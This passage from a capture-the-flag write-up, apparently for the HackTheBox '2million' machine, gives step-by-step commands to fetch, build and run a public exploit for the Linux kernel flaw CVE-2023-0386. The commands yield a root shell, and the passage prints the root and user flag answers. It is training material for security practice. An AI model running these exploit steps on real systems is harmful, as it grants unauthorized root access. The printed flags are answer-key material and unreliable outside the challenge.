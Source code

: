
I will be using that exploit, let's get it and execute it in the machine in the way the author tells us:


```ad-hint
1. `git clone https://github.com/xkaneiki/CVE-2023-0386`
2. `zip -r exploit.zip CVE-2023-0386`
3. `scp exploit.zip admin@2million.htb:/tmp`
4. `cd /tmp`
5. `unzip exploit.zip`
6. `cd /tmp/CVE-2023-0386`
7. `make all`
8. `./fuse ./ovlcap/lower ./gc & ./exp`
9. `./exp`
```

After reproducing all the steps, we get a root shell:

![Pasted image 20250106175456.png](../../IMAGES/Pasted%20image%2020250106175456.png)


Now we can read the root flag and the user flag:

![Pasted image 20250106175618.png](../../IMAGES/Pasted%20image%2020250106175618.png)

![Pasted image 20250106175639.png](../../IMAGES/Pasted%20image%2020250106175639.png)

```ad-note
root flag: `cca8ef6fecc788f8396049dc9a933d62`
user flag: `d16ba35dd56db9718ba007fbf1e2f0e4`
```


Just like that, machine is done, here are all the answers:
